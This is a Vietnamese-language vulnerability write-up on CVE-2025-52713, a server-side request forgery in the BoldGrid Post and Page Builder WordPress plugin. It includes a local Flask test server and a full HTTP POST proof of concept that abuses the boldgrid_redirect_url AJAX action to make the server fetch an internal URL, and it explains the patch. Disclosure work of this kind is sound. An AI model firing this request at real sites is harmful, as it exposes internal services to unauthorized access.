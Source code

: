 ## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C07a62e731a6142aa7b15555fdd5e1cbdd114cffb4a041ba0ecd9394c8319bb3f; wp-settings-time-2=1761643645; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1761816248%7CDDS70mMGANEkpR68MrIikvC8WRqNkBMl8KlbXrbSh8Q%7C450b8e4bb8ebb335d435b94645ae098cee383a09a6e129efbdec8a2348deeda0
...

action=boldgrid_redirect_url&urls[0]=http://localhost:8001/metadata&boldgrid_gridblock_image_ajax_nonce=482dbb1ed2
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

Lỗ hổng **CVE-2025-52713** xuất phát từ việc hàm `get_redirect_url()` trong plugin **BoldGrid Post and Page Builder** (≤ 1.27.8) gửi yêu cầu HTTP đến URL do người dùng cung cấp mà không kiểm tra hoặc giới hạn, dẫn đến **SSRF**.
Kẻ tấn công có quyền **Contributor** cùng nonce hợp lệ có thể buộc máy chủ gửi request đến các địa chỉ nội bộ.
Bản vá (1.27.9) khắc phục bằng cách dùng `esc_url_raw()` và `wp_safe_remote_head()` với giới hạn `timeout` và `redirection`, ngăn chặn yêu cầu nguy hiểm.
